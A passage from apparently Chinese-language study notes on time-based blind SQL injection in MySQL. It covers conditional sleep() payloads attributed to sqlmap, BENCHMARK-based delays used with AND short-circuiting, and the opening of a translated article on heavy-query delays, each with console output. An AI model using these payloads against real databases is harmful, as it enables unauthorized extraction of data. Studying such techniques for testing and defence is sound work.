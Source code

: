 还可以在sleep里做运算(payload来自sqlmap)，3-1=2秒

```
mysql> select sleep(3-if(left(database(),1)='t',1,0))a;
+---+
| a |
+---+
| 0 |
+---+
1 row in set (2.00 sec)
```

同理猜解数据表名，猜解数据等等









# BENCHMARK

benchmark是基准的意思，可以由用户指定执行一个sql语句或sql表达式的时间，通过执行大规模次数，获得比较稳定的sql执行时间

```
BENCHMARK(count,expr)
```

**count**是执行次数，**exr**是要执行的语句执行一次**sha(1)**时可能微不足道，执行10000000次**sha(1)**的时间就可以造成延时

```
mysql> select Alt from vorname where Vorname='Lina' and benchmark(100,sha(1));
Empty set (0.00 sec)

mysql> select Alt from vorname where Vorname='Lina' and benchmark(10000000,sha(1));
Empty set (2.72 sec)
```

可以结合**and短路运算规则**进行时间盲注



# Heavy Query

有的地方会叫**笛卡儿积**或者**多表联合查询**

先翻译一篇[SQL注入网站的文章](https://www.sqlinjection.net/heavy-query/)

> Using heavy queries instead of time delays

利用大量的查询代替时间延迟

（欸，感觉benchmark也是这个原理，利用大量执行一个sql语句的时间进行延迟

> For different reasons, it might happen that it is impossible to use time delay functions or procedures in order to achieve a [classic time delay injection](https://www.sqlinjection.net/time-based/). In these situations, the best option is to simulate it with a **heavy query that will take noticeable time to get executed by the database engine**. This article shows how it can be done and it presents an example for the main DBMS.

